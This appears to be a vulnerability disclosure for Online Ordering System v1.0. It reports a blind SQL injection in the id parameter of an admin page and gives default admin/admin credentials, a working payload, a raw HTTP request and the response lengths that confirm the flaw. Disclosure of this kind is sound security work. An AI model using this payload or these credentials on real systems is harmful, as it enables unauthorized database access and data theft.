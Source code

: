 # Online Ordering System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin

vendors: https://www.sourcecodester.com/php/5125/online-ordering-system-using-phpmysql.html

Vulnerability File: /onlineordering/admin/vieworders.php

Vulnerability location: /onlineordering/admin/vieworders.php?id=,id

[+] Payload: /onlineordering/admin/vieworders.php?id=MM-MDE%27%20and%20length(database())%20=12--+ // Leak place ---> id

Current database name: shoppingcart,length is 12

```sql
GET /onlineordering/admin/vieworders.php?id=MM-MDE%27%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=v112m4jpgqqtdo86av7lvbjv3l
Connection: close
```

When length (database (()) = 11, Content-Length: 791

![image](https://user-images.githubusercontent.com/54017627/167338888-8403956f-5275-4aa9-b7ed-0885da04056f.png)

![image](https://user-images.githubusercontent.com/54017627/167338924-354859b5-b241-42fb-aed8-be9aefd77dd9.png)

When length (database (()) = 12, Content-Length: 1065

![image](https://user-images.githubusercontent.com/54017627/167338863-4fdef729-dddf-4c18-a271-815f934101fd.png)

![image](https://user-images.githubusercontent.com/54017627/167338906-23ff6bc6-d928-49d1-b8b6-0a51a6f2ddf7.png)

